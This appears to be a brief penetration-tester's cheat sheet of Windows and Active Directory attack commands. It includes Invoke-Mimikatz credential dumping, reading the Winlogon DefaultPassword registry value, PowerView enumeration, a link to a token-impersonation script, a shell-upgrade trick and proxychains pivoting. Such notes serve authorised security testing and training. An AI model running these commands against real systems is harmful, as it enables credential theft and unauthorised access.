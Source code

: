 xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share ***RDP***

$ErrorActionPreference= 'silentlycontinue' ***Hide Error in PowerShell***

Get-UserProperty -Properties logoncount | Where logoncount -ne 0 ***Filtering Powershell objects***

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} ***Filtering Powershell objects***

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword" ***Creds***

Invoke-Mimikatz -DumpCreds/-DumpCerts

script -qc /bin/bash /dev/null

Service Ticket Combos - https://adsecurity.org/?p=2011

proxychains net time set -S 172.16.3.5

(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id
